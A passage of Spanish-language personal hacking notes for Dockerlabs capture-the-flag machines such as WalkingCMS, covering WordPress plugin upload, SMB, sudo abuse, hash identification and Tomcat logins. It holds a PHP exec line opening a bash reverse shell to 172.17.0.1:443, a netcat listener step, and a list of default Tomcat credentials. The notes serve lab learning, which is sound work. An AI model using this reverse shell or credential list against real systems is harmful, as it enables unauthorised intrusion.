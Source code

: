 exec("/bin/bash -c ''bash-i >& /dev/tcp/172.17.0.1/443' ");

15.2.- Subir un plugin:

contenido el plugin:
máquina WalkingCMS - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/WalkingCMS/image-8.png

en ambos casos colocarnos en escuchar con netcat

Una vez que ya estamos entro de la máquina podemos observar el archivo wp-config.php, es bueno siempre hecharle un ojo, puede que haya bases de datos con información que nos pueda ayudar a escalar privilegios

-------------------------------------------------------------------------------

## 16.- SMB 

-> ver archivo :

E:\Hacking\APUNTES\PROTOCOLOS - HERRAMIENTAS\SAMBA netbios-ssn 139-445.txt

-------------------------------------------------------------------------------

## 17.- Si tenemos permisos sudo con:

/usr/bin/ls
/usr/bin/cat

podemos utilizar los para enumerar (ls) y ver (cat), dentro del directorio root.

-------------------------------------------------------------------------------

## 18.- Para identificar el tipo de hash:

hash-identifier "hash"

según el tipo de hash podemos utilizar diferentes herramientas para el crackeo.

Desencriptar en base64

echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d

-------------------------------------------------------------------------------

## 19.- Si tenemos una web donde corre tomcat, podemos utilizar las siguientes credenciales para iniciar sesión:

admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
